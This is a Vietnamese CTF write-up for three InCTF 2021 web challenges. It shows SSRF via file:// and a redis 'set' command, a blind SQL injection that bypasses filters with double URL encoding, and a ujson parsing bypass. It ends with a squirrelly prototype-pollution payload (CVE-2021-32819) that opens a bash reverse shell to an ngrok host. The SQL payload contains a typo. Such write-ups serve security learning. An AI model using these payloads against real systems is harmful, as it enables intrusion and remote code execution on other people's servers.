 # INCTF2021_web_writeup
---
## Raas
- Từ file docker, biết được source code nằm ở /code và 2 file main.py và app.py, tải file về bằng payload:
``` file://web.challenge.bi0s.in:6969/code/app.py ```

- Yêu cầu là set '_isAdmin' thành "yes", chuỗi '_isAdmin' sẽ được nối vào sau uid của người dùng => key có dạng uid+'_isAdmin', value='false'
- Gợi ý là sử dụng 'inctf://redis:6379/_get', thử đổi get thành set, payload:
``` inctf://redis:6379/_set {uid}_isAdmin yes ```
---
## Vuln Drive
- /source để lấy source code -> 
- /dev-test -> ssrf
- Nhưng hàm 'url_validate(url)' Chặn các payload thông thường
``` 
def url_validate(url):
    blacklist = ["::1", "::"]
    for i in blacklist:
        if(i in url):
            return "NO hacking this time ({- _ -})"
    y = urlparse(url)
    hostname = y.hostname
    try:
        ip = socket.gethostbyname(hostname)
    except:
        ip = ""
    print(url, hostname,ip)
    ips = ip.split('.')
    if ips[0] in ['127', '0']:
        return "NO hacking this time ({- _ -})"
    else:
        try:
            url = unquote(url)          #  <==
            r = requests.get(url,allow_redirects = False)
            return r.text
        except:
            print(url, hostname)
            return "cannot get you url :)"
```
- Câu này có 1 ip private, có thể kiếm trong /etc/hosts, thay vì localhost, mình có thể dùng ip private để bypass ssrf filter
- Sử dụng đường dẫn đó để ssrf -> 1 trang php
```
<?php
include('./conf.php');
$inp=$_GET['part1'];
$real_inp=$_GET['part2'];
if(preg_match('/[a-zA-Z]|\\\|\'|\"/i', $inp)) exit("Correct <!-- Not really -->");
if(preg_match('/\(|\)|\*|\\\|\/|\'|\;|\"|\-|\#/i', $real_inp)) exit("Are you me");
$inp=urldecode($inp);
//$query1=select name,path from adminfo;
$query2="SELECT * FROM accounts where id=1 and password='".$inp."'";
$query3="SELECT ".$real_inp.",name FROM accounts where name='tester'";
$check=mysqli_query($con,$query2);
if(!$_GET['part1'] && !$_GET['part2'])
{
    highlight_file(__file__);
    die();
}
if($check || !(strlen($_GET['part2'])<124))
{
    echo $query2."<br>";
    echo "Not this way<br>";
}
else
{
    $result=mysqli_query($con,$query3);
    $row=mysqli_fetch_assoc($result);
    if($row['name']==="tester")
        echo "Success";
    else
        echo "Not";
    //$err=mysqli_error($con);
    //echo $err;
}
?>
```
- SQLi!!! Phân tích code, cần làm query2 trả về sai và lợi dụng query3 để blind sqli(vì kết quả cuối cùng chỉ trả về cho ta Not hay Success)
- Vì part1 sử dụng urldecode, nên ta có thể bypass replace bằng double url encode ```$inp=urldecode($inp);```, ```%25```-> ```%``` 
- => ```urldecode(%2527)``` -> bypass preg_match
- Từ comment query1 -> phải tìm path trong adminfo db
- inject vào query 3 theo thứ tự path,name và sử dụng like 0x{}25 để bypass preg_match part2
- Payload:
```http://192.168.96.2/part1=0x252527&part2=path,name FROM adminfo WHERE path like 0x25{}25 UNION SELETE 1```
- Vì bị giới hạn độ dài nên tên file sẽ không được in ra hết (27 kí tự). Do đó để lấy 5 ký tự cuối, ta dùng path like 0x25{nửa_payload_cuối}25
- LFI file đó => flag
![image](https://user-images.githubusercontent.com/58381595/129514986-0c4b8f5a-fb7c-4008-9e86-19b84005a1d9.png)
---
## Json Analyser
1. Lấy mã PIN:
```
@app.route('/verify_roles',methods=['GET','POST'])
def verify_roles():
    no_hecking=None
    role=request.args.get('role')
    if "superuser" in role:
        role=role.replace("superuser",'')
    if " " in role:
        return "n0 H3ck1ng"
    if len(role)>30:
        return "invalid role"
    data='"name":"user","role":"{0}"'.format(role)
    no_hecking=re.search(r'"role":"(.*?)"',data).group(1)
    if(no_hecking)==None:
        return "bad data :("
    if no_hecking == "superuser":
        return "n0 H3ck1ng"
    data='{'+data+'}'
    try:
        user_data=ujson.loads(data)
    except:
        return "bad format" 
    role=user_data['role']
    user=user_data['name']
    if (user == "admin" and role == "superuser"):
        return os.getenv('subscription_code')
    else:
        return "no subscription for you"
```
- Yêu cầu: làm data có dạng {"name":"admin","role":"superuser"}
- ```supersuperuseruser``` để bypass replace
- ```supersuperuseruser\ud888``` để bypass ujson.load, tham khảo: [https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities]
- ```supersuperuseruser\ud888","name":"admin``` để đổi user thành admin và cũng là payload để lấy PIN
2. Upload File
 ```
 app.post('/upload', function(req, res) {
    let uploadFile;
    let uploadPath;
    if(req.body.pin !== "[REDACTED]"){
        return res.send('bad pin')
    }
    if (!req.files || Object.keys(req.files).length === 0) {
      return res.status(400).send('No files were uploaded.');
    }
    uploadFile = req.files.uploadFile;
    uploadPath = __dirname + '/package.json' ;
    uploadFile.mv(uploadPath, function(err) {
        if (err)
            return res.status(500).send(err);
        try{
        	var config = require('config-handler')();
        }
        catch(e){
            const src = "package1.json";
            const dest = "package.json";
            fs.copyFile(src, dest, (error) => {
                if (error) {
                    console.error(error);
                    return;
                }
                console.log("Copied Successfully!");
            });
        	return res.sendFile(__dirname+'/static/error.html')
        }
        var output='\n';
        if(config['name']){
            output=output+'Package name is:'+config['name']+'\n\n';
        }
        if(config['version']){
            output=output+ "version is :"+ config['version']+'\n\n'
        }
        if(config['author']){
            output=output+"Author of package:"+config['author']+'\n\n'
        }
        if(config['license']){
            var link=''
            if(config['license']==='ISC'){
                link='https://opensource.org/licenses/ISC'+'\n\n'
            }
            if(config['license']==='MIT'){
                link='https://www.opensource.org/licenses/mit-license.php'+'\n\n'
            }
            if(config['license']==='Apache-2.0'){
                link='https://opensource.org/licenses/apache2.0.php'+'\n\n'
            }
            if(link==''){
                var link='https://opensource.org/licenses/'+'\n\n'
            }
            output=output+'license :'+config['license']+'\n\n'+'find more details here :'+link;
        }
        if(config['dependencies']){
            output=output+"following dependencies are thier corresponding versions are used:" +'\n\n'+'     '+JSON.stringify(config['dependencies'])+'\n'
        }

        const src = "package1.json";
        const dest = "package.json";
        fs.copyFile(src, dest, (error) => {
            if (error) {
                console.error(error);
                return;
            }
        });
        res.render('index.squirrelly', {'output':output})
    });
});
```
- Yêu cầu: Gửi file JSON có thể RCE -> sử dụng "__proto__" để trigger cve của squirrelly (file package.json có hiển thị thông tin version bị vuln squirrelly: ^8.0.8 )
- Sử dụng CVE-2021-32819, tham khảo: https://securitylab.github.com/advisories/GHSL-2021-023-squirrelly/
- payload: 
```
{"dependencies": 
  {
    "test":"aaaa",
    "__proto__":{"defaultFilter":"e'));process.mainModule.require('child_process').execSync('/bin/bash -c \"/bin/bash -i >& /dev/tcp/4.tcp.ngrok.io/16542 0>&1\"').toString()//"}
  }
}
```
- Sử dụng dependencies vì code sử dụng ```JSON.stringify(config['dependencies'])``` để phân tích các json con bên trong
- "__proto__" để excute code
- "defaultFilter":"e'));" dự vào CVE-2021-32819 để thực thi code bên phải dấu ;
- Phần code sau là reverse shell về ngrok, ngoài ra có thể curl hoặc các cách khác để rce
![image](https://user-images.githubusercontent.com/58381595/129514687-6e8c170f-8811-494d-881e-da6be4171220.png)
